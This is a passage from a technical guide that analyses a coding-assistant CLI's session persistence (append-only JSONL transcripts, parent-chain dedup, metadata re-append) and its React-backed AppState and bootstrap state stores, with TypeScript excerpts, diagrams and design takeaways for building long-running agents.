`sessionStoragePortable.ts` is a deliberate dependency-free extraction shared with the VS Code extension. It contains only path sanitization, UUID validation, JSON string field extraction (`extractJsonStringField` / `extractLastJsonStringField`), first-prompt extraction, and the `readTranscriptForLoad` chunked reader. All cc-specific logic (write queuing, dedup, remote hydration, metadata caching) lives in `sessionStorage.ts`. This split means the extension can list sessions and extract metadata without pulling in the entire cc runtime, but it also means the extension cannot write sessions — that remains a CLI-only capability. The `resolveSessionFilePath()` function (`src/utils/sessionStoragePortable.ts:L403-L466`) is particularly interesting: it handles the Bun/Node hash mismatch for long paths by falling back to prefix-based directory scanning.

### No WAL, no checksums

cc does not use a write-ahead log or per-entry checksums. A crash mid-`fsAppendFile` can produce a partial line at the end of the JSONL. The `parseJSONL` function silently skips unparseable lines, so this is recovered gracefully — the last entry may be lost, but the chain up to the penultimate entry is intact. The tradeoff is simplicity versus durability: for a coding assistant, losing the very last tool result is acceptable; for a payment-processing agent, it would not be.

A subtler form of data loss occurs when the process is killed during `drainWriteQueue`. The drain batches multiple entries into a single `fsAppendFile` call (`src/utils/sessionStorage.ts:L645-L686`); a crash mid-batch loses all entries in that batch, not just the one being written. The `flush()` method (`src/utils/sessionStorage.ts:L841-L861`) cancels the pending timer, waits for any in-flight drain, drains the remaining queue, and then waits for tracked operations to complete — providing a best-effort guarantee that all queued writes land before the process exits. The `registerCleanup()` call in `getProject()` wires this flush into the graceful shutdown path.

### Record transcript with prefix-aware dedup

The `recordTranscript()` function (`src/utils/sessionStorage.ts:L1408-L1449`) implements a subtle dedup strategy. Compaction returns `messagesToKeep` — the same UUIDs as pre-compact messages — which `appendEntry` would skip (they're already in `messageSet`). But `insertMessageChain` still advances the `parentUuid` cursor for skipped messages, which would chain new messages to pre-compact UUIDs instead of the post-compact summary. The fix tracks skipped messages only when they form a *prefix* (appear before any new message). After compaction, new boundary/summary messages appear first, so skipped `messagesToKeep` are not a prefix and don't advance the cursor — the boundary correctly gets `parentUuid = null`.

### Session stamping: per-message provenance

Every transcript message written via `insertMessageChain` is stamped with a set of provenance fields after the message spread (`src/utils/sessionStorage.ts:L1049-L1064`): `userType`, `entrypoint`, `cwd`, `sessionId`, `version`, `gitBranch`, and `slug`. These fields MUST come after the spread to ensure they override any values inherited from forked or resumed messages. The `adoptResumedSessionFile()` function illustrates this principle concisely:

```typescript
// src/utils/sessionStorage.ts:L1530-L1534
export function adoptResumedSessionFile(): void {
  const project = getProject()
  project.sessionFile = getTranscriptPath()
  project.reAppendSessionMetadata(true)
}
```

The comment at `src/utils/sessionStorage.ts:L1049-L1056` documents a concrete bug: without re-stamping, `--fork-session` produces a new session file with messages stamped `sessionId=A` but content-replacement entries stamped `sessionId=FRESH`, causing `loadFullLog`'s sessionId-keyed lookup to miss the replacement records — leading to FROZEN misclassification.

The `sessionId` stamp is particularly important for multi-session files. A single JSONL file can contain messages from multiple sessions (forked branches share the same file), so the `sessionId` field allows `loadTranscriptFile` to partition entries correctly. Metadata maps (customTitles, tags, agentNames, etc.) are all keyed by `sessionId`, not by file path.

## Developer takeaways for building a long-running agent

1. **Append-only is your friend.** The JSONL append discipline means crashes never corrupt earlier entries. Design your entry types upfront because you can never change what's already on disk — only add new entry types and handle old ones gracefully in the loader. cc's 19-entry-type union grew incrementally; each new type (worktree-state, context-collapse-commit, etc.) was added without modifying the loader's handling of existing types. The invariant is simple: every new entry type must be handled by a new branch in the type guard, and the loader's `else` path (unrecognized entries) must log a warning and skip, not crash.

2. **Parent chains beat sequential ordering.** Sequential message lists break on rewind, fork, and compaction. A `parentUuid`-linked chain supports branching, compaction truncation, and chain reconstruction from any leaf — essential for any agent that lets users undo, fork, or compact. The `logicalParentUuid` field preserves pre-boundary links for cases where you need to reconstruct the full topology. The investment in chain-aware data structures pays off immediately: cc's `walkChainBeforeParse` pre-filter reduces parse time by 93% on files with heavy forking, and `recoverOrphanedParallelToolResults` silently rescues DAG-shaped tool results that a tree walk would drop.

3. **Head/tail reads make session listing tractable.** Reading 64KB from each end of the file gives you first prompt, last title, and last tag without parsing megabytes. For agents with sessions that grow to hundreds of megabytes, this is the difference between a snappy session picker and a multi-second stall. The `extractJsonStringField` function extracts values without full JSON parsing — it scans for `"key":"value"` patterns at the byte level. The 64KB buffer size is a deliberate tradeoff: large enough to contain all metadata entries for a typical session (titles, tags, mode, agent settings), small enough to keep I/O under 1ms even on spinning disks.

4. **Lazy file materialization prevents orphans.** Buffering entries in memory until the first real user message means `--name` + quit-before-typing doesn't leave a zero-content file in the session list. This pattern applies anywhere a user can create a named session but abandon it before any substantive work. The `pendingEntries` array acts as a write buffer: if the session is abandoned, the buffer is silently discarded and no file is created on disk.

5. **Idempotency keys for external side effects are not optional.** HER §6.16's ACRFence finding is clear: checkpoint-restore without idempotency is a loaded gun. If your agent calls payment APIs, sends emails, or deploys infrastructure, add idempotency keys at the tool level *before* you enable resume. The JSONL format records what happened; it does not prevent it from happening again. cc's current implementation lacks this — developers building on top should add idempotency annotations to tool schemas and check them in the dispatch pipeline before tool execution, not after.

6. **Plan for chain topology, not just sequence.** Parallel tool uses create DAGs. Compaction creates truncation boundaries. Snip creates gaps. Rewind creates dead branches. Your chain reconstruction must handle all four — cc's `recoverOrphanedParallelToolResults`, `applyPreservedSegmentRelinks`, `applySnipRemovals`, and `walkChainBeforeParse` are not nice-to-haves; they are load-bearing code that was written in response to production failures (e.g., #14373, #23537 — progress entries in the parent chain orphaning real conversation messages on resume). Test your chain reconstruction with adversarial topologies: deeply nested forks, consecutive compaction boundaries, and interleaved progress entries from legacy sessions.

7. **Metadata re-append keeps tail-window reads working.** After compaction, a title entry 40KB from EOF is inside the current tail window but will fall out once the session grows. Unconditional re-append on exit and after compaction ensures metadata stays discoverable. If your agent uses a tail-window read optimization, you need this pattern — without it, `--resume` shows stale titles. The ordering of re-appended fields matters too: cc places the most frequently accessed fields (custom-title, tag) closest to EOF, where the tail scan is most likely to find them.

8. **External-writer safety requires tail-before-cache.** When multiple processes can write to the same JSONL file (CLI + VS Code SDK), the CLI must read the tail before re-appending to avoid clobbering a fresher SDK-written value. The `reAppendSessionMetadata` pattern — read tail, absorb fresher values into cache, then re-append — is a form of last-writer-wins coordination that works without distributed locks because both writers append (never overwrite in-place). The field-level split between SDK-mutable (customTitle, tag) and CLI-only (last-prompt, agent-*, mode) prevents accidental overwrites even when both processes write concurrently.

9. **Session stamping prevents cross-session contamination.** When messages are copied between sessions (fork, resume), every provenance field (sessionId, cwd, entrypoint, version) must be re-stamped after the spread to override inherited values. Without this, a forked session's messages retain the parent's sessionId, breaking metadata lookups and content-replacement resolution. The lesson: never trust inherited metadata in an append-only system — always re-stamp at the write boundary. cc's `insertMessageChain` enforces this by stamping provenance fields after the object spread, not before, ensuring the new session's identity wins.

10. **Graceful shutdown is a persistence concern, not just a UX concern.** The `registerCleanup` + `flush` + `reAppendSessionMetadata` chain ensures that buffered writes land and metadata stays in the tail window. A killed process that doesn't flush can lose the last batch of entries AND have metadata pushed out of the tail window. For any agent that needs durable persistence, graceful shutdown must be wired into every exit path (SIGTERM, SIGINT, uncaught exceptions) — not just the happy path. The `flush()` method's three-phase approach (cancel timer, await in-flight drain, drain remaining queue) provides a model: each phase handles a different class of in-flight write, and skipping any phase risks data loss.

11. **Guard your write path against pathological input.** The 50MB tombstone guard and the 64KB carry-buffer guard exist because production sessions can reach multi-gigabyte sizes. Without size gates, a single `removeMessageByUuid` on a 2GB file would read the entire file into memory and rewrite it — an OOM in waiting. Similarly, the `METADATA_PREFIX_BOUND` (25 bytes) in `resolveMetadataBuf` prevents quadratic carry growth from pathological huge lines. Size guards are not premature optimization; they are production hardening that prevents the worst-case scenario (crash on resume) from occurring on the most valuable sessions (long-running, large files).
# AppState: The Redux-like Store

## Overview

Every long-running agent needs a single source of truth for its runtime state. In cc, that role is filled by two cooperating systems: a React-context-backed **AppState store** (`src/state/AppStateStore.ts`, `src/state/AppState.tsx`) for UI-reactive state, and a module-scope **bootstrap state** (`src/bootstrap/state.ts`) for infrastructure-level values that must exist before React mounts. Together they form a Redux-like architecture — centralized state, functional updates, subscriber notification — but without the boilerplate of actions, dispatchers, or middleware.

This chapter dissects both layers. The AppState store is the one your React components subscribe to via `useAppState(selector)`. The bootstrap state is the mutable singleton that holds cost counters, session IDs, telemetry providers, and other values that must survive across the React tree's lifecycle (including headless and SDK mode, where React never mounts). Understanding how they interact — and where they deliberately don't — is essential for anyone building a harness that needs both reactivity and durability.

The HER reference architecture's Layer 2 (Session Management) calls for a "session startup protocol" and "clean exit protocol" that update state, commit, and persist notes. cc's dual-state system is its concrete answer: AppState for the live session's reactive picture, bootstrap state for the cross-session durable counters.

## Data structures and contracts

### The AppState type

`AppState` is a deeply immutable object (wrapped with `DeepImmutable<>`) that holds every piece of reactive state the terminal UI needs. It is defined across approximately 450 lines of type declarations in `src/state/AppStateStore.ts:L89-L452`.

```typescript
// src/state/AppStateStore.ts:L89-L158
export type AppState = DeepImmutable<{
  settings: SettingsJson
  verbose: boolean
  mainLoopModel: ModelSetting
  mainLoopModelForSession: ModelSetting
  statusLineText: string | undefined
  expandedView: 'none' | 'tasks' | 'teammates'
  isBriefOnly: boolean
  showTeammateMessagePreview?: boolean
  selectedIPAgentIndex: number
  coordinatorTaskIndex: number
  viewSelectionMode: 'none' | 'selecting-agent' | 'viewing-agent'
  footerSelection: FooterItem | null
  toolPermissionContext: ToolPermissionContext
  spinnerTip?: string
  agent: string | undefined
  kairosEnabled: boolean
  remoteSessionUrl: string | undefined
  remoteConnectionStatus:
    | 'connecting'
    | 'connected'
    | 'reconnecting'
    | 'disconnected'
  remoteBackgroundTaskCount: number
  replBridgeEnabled: boolean
  replBridgeExplicit: boolean
  replBridgeOutboundOnly: boolean
  replBridgeConnected: boolean
  replBridgeSessionActive: boolean
  replBridgeReconnecting: boolean
  // ... many more fields
}>
```

The type is split into two parts: the `DeepImmutable<>`-wrapped core (UI-reactive, structural-sharing-friendly) and an intersection with a set of fields that cannot be made deeply immutable because they contain function types or `Map` instances.

```typescript
// src/state/AppStateStore.ts:L159-L167
}> & {
  tasks: { [taskId: string]: TaskState }
  agentNameRegistry: Map<string, AgentId>
  foregroundedTaskId?: string
  viewingAgentTaskId?: string
  companionReaction?: string
  companionPetAt?: number
  // ...
}
```

The intersection hack exists because `TaskState` contains function references (abort callbacks) and `Map` is not deeply readonly-friendly. This split is intentional: the `DeepImmutable` wrapper catches accidental mutations at compile time for the majority of fields, while the mutable escape hatch acknowledges runtime reality.

Notable fields within AppState include:

- **`toolPermissionContext`** — the active permission mode and its derived rules. This is the single most-watched field because it controls tool-access behavior for the entire session. Changes to its `mode` property trigger the most complex side effects in `onChangeAppState`.
- **`teamContext`** — the swarm/team membership registry (`src/state/AppStateStore.ts:L323-L345`). Contains the team name, file path, lead agent ID, and a map of teammate descriptors indexed by ID. Each teammate entry tracks its tmux session, pane ID, working directory, worktree path, and spawn timestamp. This field is only populated when `ENABLE_AGENT_SWARMS` is true.
- **`speculation`** — the speculative execution state machine (`src/state/AppStateStore.ts:L59-L77`). Tracks whether the agent is speculatively executing a tool call ahead of user confirmation, including a mutable messages reference and written-paths overlay that avoids array spreading per message.
- **`mcp`** — the MCP connection registry with clients, tools, commands, resources, and a `pluginReconnectKey` counter that is incremented by `/reload-plugins` to trigger MCP effects to re-run and pick up newly-enabled plugin MCP servers (`src/state/AppStateStore.ts:L173-L184`).

### The Store contract

The actual store is a 34-line function in `src/state/store.ts` that implements the same interface as Redux's store, minus the action/reducer ceremony:

```typescript
// src/state/store.ts:L1-L34
type Listener = () => void
type OnChange<T> = (args: { newState: T; oldState: T }) => void

export type Store<T> = {
  getState: () => T
  setState: (updater: (prev: T) => T) => void
  subscribe: (listener: Listener) => () => void
}

export function createStore<T>(
  initialState: T,
  onChange?: OnChange<T>,
): Store<T> {
  let state = initialState
  const listeners = new Set<Listener>()

  return {
    getState: () => state,
    setState: (updater: (prev: T) => T) => {
      const prev = state
      const next = updater(prev)
      if (Object.is(next, prev)) return
      state = next
      onChange?.({ newState: next, oldState: prev })
      for (const listener of listeners) listener()
    },
    subscribe: (listener: Listener) => {
      listeners.add(listener)
      return () => listeners.delete(listener)
    },
  }
}
```

Three design choices deserve attention. First, `setState` takes an **updater function** `(prev: T) => T`, not a partial object. This forces callers to explicitly spread the previous state, making mutations traceable. Second, the `Object.is` identity check means that returning the same reference is a no-op — a critical optimization for `useSyncExternalStore`, which relies on reference equality to skip re-renders. Third, the optional `onChange` callback fires **before** listeners are notified, giving the system a single choke point for side effects.

### The bootstrap State type

In contrast to AppState's immutable snapshots, the bootstrap state (`src/bootstrap/state.ts`) is a mutable singleton accessed through getter/setter pairs. Its type spans over 250 fields:

```typescript
// src/bootstrap/state.ts:L45-L257
type State = {
  originalCwd: string
  projectRoot: string
  totalCostUSD: number
  totalAPIDuration: number
  totalAPIDurationWithoutRetries: number
  totalToolDuration: number
  turnHookDurationMs: number
  turnToolDurationMs: number
  turnClassifierDurationMs: number
  turnToolCount: number
  turnHookCount: number
  turnClassifierCount: number
  startTime: number
  lastInteractionTime: number
  totalLinesAdded: number
  totalLinesRemoved: number
  hasUnknownModelCost: boolean
  cwd: string
  modelUsage: { [modelName: string]: ModelUsage }
  mainLoopModelOverride: ModelSetting | undefined
  initialMainLoopModel: ModelSetting
  // ... telemetry, session, color, cache, and feature-flag state
  sessionId: SessionId
  parentSessionId: SessionId | undefined
  // ...
}
```

The bootstrap state's comment at `src/bootstrap/state.ts:L31` says it plainly: `// DO NOT ADD MORE STATE HERE - BE JUDICIOUS WITH GLOBAL STATE`. This is not a suggestion — the file is a DAG leaf in the import graph, and every new field ripples through the module's getter/setter surface.

```typescript
// src/bootstrap/state.ts:L429
const STATE: State = getInitialState()
```

The singleton is a module-scoped `const`. There is no `subscribe` mechanism, no change notification, and no structural sharing. When code calls `addToTotalCostState(cost, modelUsage, model)`, it mutates `STATE.totalCostUSD` in place and walks away.

### The class diagram

```mermaid
classDiagram
    class Store_T_ {
        +getState() T
        +setState(updater: Function) void
        +subscribe(listener: Function) Function
        -state: T
        -listeners: Set~Function~
        -onChange: OnChange~T~
    }

    class AppState {
        +settings: SettingsJson
        +verbose: boolean
        +mainLoopModel: ModelSetting
        +toolPermissionContext: ToolPermissionContext
        +tasks: Record~string_TaskState~
        +agentNameRegistry: Map
        +mcp: MCPServerConnection[]
        +plugins: LoadedPlugin[]
        +todos: Record~string_TodoList~
        +speculation: SpeculationState
        +teamContext: TeamContext
        +inbox: InboxState
        +effortValue: EffortValue
        +fastMode: boolean
    }

    class BootstrapState {
        +originalCwd: string
        +projectRoot: string
        +totalCostUSD: number
        +sessionId: SessionId
        +modelUsage: Record
        +mainLoopModelOverride: ModelSetting
        +registeredHooks: Record
        +invokedSkills: Map
        +promptCache1hEligible: boolean
    }

    class AppStateStore {
        = Store~AppState~
    }

    AppStateStore --> AppState : holds
    Store_T_ <|-- AppStateStore : implements
    BootstrapState : accessed via getters/setters
```

## Control flow

### State creation and injection

The `AppStateProvider` React component creates the store once and injects it via context. The relevant source-mapped code (the on-disk file is React compiler output; the original source is recovered via the embedded source map) shows:

```typescript
// src/state/AppState.tsx — source-mapped from L37-L57
const [store] = useState(() =>
  createStore<AppState>(
    initialState ?? getDefaultAppState(),
    onChangeAppState,
  ),
)
```

The `useState` initializer runs once per mount. The `onChangeAppState` callback is passed as the store's `onChange` parameter, meaning it fires on every `setState` call that produces a new reference. The store itself is a stable reference — `AppStoreContext.Provider` receives it, and consumers read it via `useContext`. Note that on disk, the React compiler transforms this into memo-cache checks (`$[0] !== initialState || $[1] !== onChangeAppState`) that guard the initializer, but the semantics are identical.

The `getDefaultAppState()` function in `src/state/AppStateStore.ts:L456-L569` constructs the initial state, including a dynamic check for teammate plan-mode requirements:

```typescript
// src/state/AppStateStore.ts:L459-L467
const teammateUtils =
  require('../utils/teammate.js') as typeof import('../utils/teammate.js')
const initialMode: PermissionMode =
  teammateUtils.isTeammate() && teammateUtils.isPlanModeRequired()
    ? 'plan'
    : 'default'
```

The lazy `require` avoids a circular dependency: `AppStateStore` is imported early in the module graph, and `teammate.js` transitively imports state-consuming code.

### Subscriber notification: the onChangeAppState side-effect pipeline

When `setState` produces a new reference, `onChangeAppState` receives both old and new state. This function in `src/state/onChangeAppState.ts:L43-L171` is the single choke point for state-derived side effects. Its most critical responsibility is synchronizing the permission mode to CCR (the remote agent controller) and the SDK status stream:

```typescript
// src/state/onChangeAppState.ts:L65-L92
const prevMode = oldState.toolPermissionContext.mode
const newMode = newState.toolPermissionContext.mode
if (prevMode !== newMode) {
  const prevExternal = toExternalPermissionMode(prevMode)
  const newExternal = toExternalPermissionMode(newMode)
  if (prevExternal !== newExternal) {
    const isUltraplan =
      newExternal === 'plan' &&
      newState.isUltraplanMode &&
      !oldState.isUltraplanMode
        ? true
        : null
    notifySessionMetadataChanged({
      permission_mode: newExternal,
      is_ultraplan_mode: isUltraplan,
    })
  }
  notifyPermissionModeChanged(newMode)
}
```

The comment block above this code explains why it exists: before this centralized diff, mode changes were relayed by only 2 of 8+ mutation paths. Shift+Tab cycling, ExitPlanMode dialog choices, the `/plan` slash command, rewind, and the REPL bridge all mutated `AppState` without notifying CCR, leaving `external_metadata.permission_mode` stale. Hooking the diff here means **any** `setState` call that changes the mode automatically propagates.

The function also handles persistence side effects:

- **Model override → settings**: When `mainLoopModel` changes, the new value is persisted to user settings and propagated to the bootstrap state via `setMainLoopModelOverride` (`src/state/onChangeAppState.ts:L96-L112`).
- **Expanded view → global config**: `expandedView` changes are translated to `showExpandedTodos` / `showSpinnerTree` and persisted (`src/state/onChangeAppState.ts:L115-L128`).
- **Verbose → global config**: Verbose toggle is persisted (`src/state/onChangeAppState.ts:L131-L140`).
- **Settings → cache invalidation**: When the `settings` object changes, auth caches (API key, AWS, GCP) are cleared, and environment variables are re-applied (`src/state/onChangeAppState.ts:L156-L170`).

### The useAppState subscription hook

React components subscribe to slices of AppState via `useAppState`, which wraps `useSyncExternalStore`. The source-mapped original (the on-disk file is React compiler output) reads:

```typescript
// src/state/AppState.tsx — source-mapped from L142-L163
export function useAppState<T>(selector: (state: AppState) => T): T {
  const store = useAppStore()
  const get = () => {
    const state = store.getState()
    const selected = selector(state)
    return selected
  }
  return useSyncExternalStore(store.subscribe, get, get)
}
```

The `selector` pattern means components only re-render when their specific slice changes (compared via `Object.is`). The JSDoc warns against returning new objects from selectors — `Object.is` would see them as changed on every call, triggering infinite re-renders. Instead, callers should select existing sub-object references.

For write-only access, `useSetAppState()` returns the `setState` function directly with zero subscription overhead. The source-mapped version:

```typescript
// src/state/AppState.tsx — source-mapped from L170-L172
export function useSetAppState() {
  return useAppStore().setState
}
```

### The bootstrap state: getter/setter mutation

The bootstrap state has no subscription mechanism. Code reads it via getters like `getSessionId()` and mutates it via setters like `addToTotalCostState()`. This is by design: the bootstrap state holds values that either (a) don't change during a session (session ID, project root), (b) change too frequently for React re-renders (cost counters, token budgets), or (c) must be accessible before React mounts (telemetry providers, CLI flags).

The session ID switch illustrates the atomicity contract:

```typescript
// src/bootstrap/state.ts:L468-L479
export function switchSession(
  sessionId: SessionId,
  projectDir: string | null = null,
): void {
  STATE.planSlugCache.delete(STATE.sessionId)
  STATE.sessionId = sessionId
  STATE.sessionProjectDir = projectDir
  sessionSwitched.emit(sessionId)
}
```

`sessionId` and `sessionProjectDir` always change together — there is no separate setter for either. The signal-based `onSessionSwitch` subscription replaces the missing `onChange` hook for the few consumers that need to react to session switches.

### The external settings bridge

AppState and the filesystem share a bidirectional synchronization channel, but the two directions use different mechanisms. State-to-disk is handled by `onChangeAppState` as described above. Disk-to-state is handled by a `useSettingsChange` hook that fires when the file watcher detects changes to `settings.json`. The source-mapped original:

```typescript
// src/state/AppState.tsx — source-mapped from L84-L91
const onSettingsChange = useEffectEvent(
  (source: SettingSource) => applySettingsChange(source, store.setState),
)
useSettingsChange(onSettingsChange)
```

The `useEffectEvent` wrapper ensures the callback uses the latest `store.setState` reference without causing the effect to re-run. When a settings file changes on disk (user edit, external process, managed policy push), `applySettingsChange` reads the new settings and calls `store.setState` to merge them into AppState. This then triggers `onChangeAppState`, which may fire additional side effects (cache invalidation, CCR notification) — creating a full round-trip: disk → state → side effects → disk.

The bridge also handles the case where remote settings arrive before React mounts. The `useSettingsChange` hook is registered in `AppStateProvider`, but on the first session the GrowthBook fetch may complete before the component tree renders. The mount-time `useEffect` (source-mapped from `src/state/AppState.tsx:L62-L70`) catches this edge case by checking `isBypassPermissionsModeDisabled()` synchronously.

### Cost accumulation: why it lives in bootstrap

The most frequently mutated fields in the entire codebase are `totalCostUSD`, `totalAPIDuration`, and the per-model `modelUsage` map. These are updated after every API response in `src/bootstrap/state.ts:L557-L564`:

```typescript
// src/bootstrap/state.ts:L557-L564
export function addToTotalCostState(
  cost: number,
  modelUsage: ModelUsage,
  model: string,
): void {
  STATE.modelUsage[model] = modelUsage
  STATE.totalCostUSD += cost
}
```

If these counters lived in AppState, each API response would trigger `setState` → `onChange` → subscriber notification → potential React re-renders. The UI only reads cost values at render boundaries (the footer status line), so the re-renders would be wasted work. By keeping them in the mutable bootstrap singleton, the API layer increments counters in O(1) time with zero React overhead. The UI reads the latest values via `getTotalCostUSD()` during its own render cycle, which is already scheduled by other state changes (streaming tokens, tool results).

### Sequence diagram: state change propagation

```mermaid
sequenceDiagram
    participant Caller as setAppState caller
    participant Store as Store<AppState>
    participant OnChange as onChangeAppState
    participant CCR as CCR / SDK
    participant React as useSyncExternalStore
    participant Config as GlobalConfig / Settings

    Caller->>Store: setState(prev => ({...prev, toolPermissionContext: {...}}))
    Store->>Store: Object.is(next, prev) check
    alt Identity changed
        Store->>OnChange: onChange({newState, oldState})
        OnChange->>OnChange: Diff toolPermissionContext.mode
        alt Mode changed externally
            OnChange->>CCR: notifySessionMetadataChanged
            OnChange->>CCR: notifyPermissionModeChanged
        end
        OnChange->>OnChange: Diff mainLoopModel
        alt Model changed
            OnChange->>Config: updateSettingsForSource
            OnChange->>OnChange: setMainLoopModelOverride (bootstrap)
        end
        Store->>React: Notify all subscribers
        React->>React: Re-render selectors with new state
    else Identity unchanged
        Store-->>Caller: No-op return
    end
```

## Edge cases and failure modes

### Nested AppStateProvider guard

If `AppStateProvider` is accidentally nested (a common React mistake), the code throws immediately. The source-mapped original:

```typescript
// src/state/AppState.tsx — source-mapped from L44-L48
const hasAppStateContext = useContext(HasAppStateContext)
if (hasAppStateContext) {
  throw new Error(
    'AppStateProvider can not be nested within another AppStateProvider',
  )
}
```

Without this guard, two stores would exist simultaneously, and `useAppState` would subscribe to the inner one while parent components read from the outer one — a silently broken state that is extremely difficult to debug.

### Race condition: remote settings before mount

The `useEffect` that checks bypass-permissions disable handles a subtle timing issue documented at `src/state/AppState.tsx:L62-L70`:

```typescript
// src/state/AppState.tsx:L62-L70
useEffect(() => {
  const { toolPermissionContext } = store.getState()
  if (
    toolPermissionContext.isBypassPermissionsModeAvailable &&
    isBypassPermissionsModeDisabled()
  ) {
    logForDebugging(
      'Disabling bypass permissions mode on mount (remote settings loaded before mount)',
    )
    store.setState(prev => ({
      ...prev,
      toolPermissionContext: createDisabledBypassPermissionsContext(
        prev.toolPermissionContext,
      ),
    }))
  }
}, [])
```

On the first session, remote settings (managed policies) may arrive via a GrowthBook fetch that completes **before** React mounts. The settings change notification fires into the void because no listeners are subscribed. This mount-time check catches the stale state by reading the current `isBypassPermissionsModeDisabled()` value (which reflects the remote fetch) and applying it retroactively.

### Selector returning the whole state

The `useAppState` hook includes a dev-only guard against selectors that return the entire state object. On disk, the compiled output reads:

```typescript
// src/state/AppState.tsx:L150-L151 (compiled output)
if ("external" === "ant" && state === selected) {
  throw new Error(
    `Your selector in \`useAppState(${selector.toString()})\` returned the original state, which is not allowed. You must instead return a property for optimised rendering.`,
  )
}
```

The `"external" === "ant"` condition is a dead-code-eliminated feature gate: in external builds the comparison is always `false`, so the guard is a no-op in production. In the internal ("ant") build, returning the full state from a selector would cause the component to re-render on **every** `setState` call, defeating the purpose of slice-based subscriptions. The pattern to use instead is destructuring: `const { text, promptId } = useAppState(s => s.promptSuggestion)`.

### Bootstrap state has no test isolation by default

The bootstrap singleton (`const STATE: State = getInitialState()`) is shared across all tests unless `resetStateForTests()` is called explicitly. The function itself has a guard:

```typescript
// src/bootstrap/state.ts:L919-L921
export function resetStateForTests(): void {
  if (process.env.NODE_ENV !== 'test') {
    throw new Error('resetStateForTests can only be called in tests')
  }
```

Missing a reset call between tests can cause state leakage — a test that mutates `STATE.sessionId` can poison the next test's assertions. The AppState store does not have this problem because each `AppStateProvider` mount creates a fresh store instance.

The reset function itself is blunt: it iterates over `getInitialState()` entries and overwrites every field:

```typescript
// src/bootstrap/state.ts:L923-L929
Object.entries(getInitialState()).forEach(([key, value]) => {
  STATE[key as keyof State] = value as never
})
outputTokensAtTurnStart = 0
currentTurnTokenBudget = null
budgetContinuationCount = 0
sessionSwitched.clear()
```

The `as never` cast bypasses TypeScript's type checker — a pragmatic choice for a test-only utility. The function also resets module-scoped variables (`outputTokensAtTurnStart`, `currentTurnTokenBudget`) that are not part of the `State` type but affect cost computation. This is a maintenance hazard: any new module-scoped variable added to `bootstrap/state.ts` must be manually added to the reset function, or tests will silently carry stale values.

### The `useAppStateMaybeOutsideOfProvider` escape hatch

Some components may render in contexts where `AppStateProvider` isn't available (e.g., bridge-related UI that renders before the full React tree). The `useAppStateMaybeOutsideOfProvider` hook (source-mapped from `src/state/AppState.tsx:L186-L199`) handles this by returning `undefined` instead of throwing. The source-mapped original:

```typescript
// src/state/AppState.tsx — source-mapped from L186-L199
export function useAppStateMaybeOutsideOfProvider<T>(
  selector: (state: AppState) => T,
): T | undefined {
  const store = useContext(AppStoreContext)
  return useSyncExternalStore(
    store ? store.subscribe : NOOP_SUBSCRIBE,
    () => store ? selector(store.getState()) : undefined,
  )
}
```

When no store is available, the hook subscribes to a no-op listener (`NOOP_SUBSCRIBE = () => () => {}`) and returns `undefined`. This avoids the `ReferenceError` that `useAppState` would throw, at the cost of requiring callers to handle the `undefined` case.

### Settings change → cache invalidation error handling

The `onChangeAppState` settings-diff handler wraps cache invalidation in a try/catch:

```typescript
// src/state/onChangeAppState.ts:L156-L170
if (newState.settings !== oldState.settings) {
  try {
    clearApiKeyHelperCache()
    clearAwsCredentialsCache()
    clearGcpCredentialsCache()
    if (newState.settings.env !== oldState.settings.env) {
      applyConfigEnvironmentVariables()
    }
  } catch (error) {
    logError(toError(error))
  }
}
```

If any cache clear fails, the error is logged but does not propagate. This is intentional: a failed cache invalidation should not crash the entire state-update cycle. The next API call will re-authenticate from scratch, which is a safe fallback.

## Where cc diverges from the published pattern

### No action types or dispatcher

Redux mandates named action types (`{ type: 'SET_VERBOSE', payload: true }`) that flow through a dispatcher and are handled by pure reducer functions. cc's `setState(updater)` accepts an arbitrary function. This eliminates the action-type enumeration, the switch/case reducer boilerplate, and the middleware pipeline — but it also eliminates the debugging affordance of a serialized action log. When something goes wrong in state, you cannot replay a sequence of named actions; you must inspect the `onChange` diff.

### Two state systems instead of one

The HER reference architecture's Layer 2 envisions a single session state object that is updated atomically on startup and shutdown. cc splits this into AppState (React-reactive, immutable snapshots) and bootstrap state (mutable singleton, no reactivity). The split exists because:

1. **Headless/SDK mode never mounts React.** The bootstrap state must hold cost counters and session metadata that are written by the API layer, which runs before any React component exists.
2. **Performance.** Cost and token counters increment on every API response. If these lived in AppState, every `setState` would trigger subscriber notification and potential re-renders, even though the UI only reads these values at render boundaries.
3. **Import graph isolation.** `bootstrap/state.ts` is a DAG leaf — it cannot import React or any React-dependent module. AppState depends on React.

The tradeoff is synchronization complexity: `onChangeAppState` bridges the two systems by pushing some AppState changes into bootstrap setters (e.g., `setMainLoopModelOverride`), but the bridge is one-directional. Bootstrap state changes do not automatically propagate to AppState.

### DeepImmutable vs. mutable escape hatch

Redux enforces immutability at runtime via `Object.is` checks in its middleware. cc uses TypeScript's `DeepImmutable<>` wrapper for compile-time enforcement, but carves out exceptions for fields containing functions, `Map` instances, and `Set` instances. This is a pragmatic compromise — `TaskState` includes abort callbacks that cannot be deeply frozen — but it means the immutability guarantee is partial, and runtime enforcement is limited to the `Object.is` identity check in `setState`.

### No middleware, no enhancers

Redux's store enhancer and middleware system allows cross-cutting concerns (logging, analytics, persistence) to be composed into the dispatch pipeline. cc's `onChange` callback is a single function. Cross-cutting concerns are handled inline within `onChangeAppState`, which sequentially checks every field diff. This is simpler but less extensible — adding a new side effect requires editing `onChangeAppState` rather than composing a new middleware.

### The external metadata reverse bridge

The HER reference architecture's Layer 2 specifies that session state should be restorable from structured files. cc implements a partial version of this via `externalMetadataToAppState` in `src/state/onChangeAppState.ts:L24-L41`:

```typescript
// src/state/onChangeAppState.ts:L24-L41
export function externalMetadataToAppState(
  metadata: SessionExternalMetadata,
): (prev: AppState) => AppState {
  return prev => ({
    ...prev,
    ...(typeof metadata.permission_mode === 'string'
      ? {
          toolPermissionContext: {
            ...prev.toolPermissionContext,
            mode: permissionModeFromString(metadata.permission_mode),
          },
        }
      : {}),
    ...(typeof metadata.is_ultraplan_mode === 'boolean'
      ? { isUltraplanMode: metadata.is_ultraplan_mode }
      : {}),
  })
}
```

This function produces a **state updater** (not a direct mutation) that a worker process applies when it restarts and receives its `external_metadata` from CCR. It translates the external wire format (`permission_mode` as a string) back into the internal `PermissionMode` enum, and restores the ultraplan flag. The function is called on the worker side (not the leader), enabling a freshly-spawned worker to reconstruct the leader's permission state from the CCR metadata payload.

## Developer takeaways for building a long-running agent

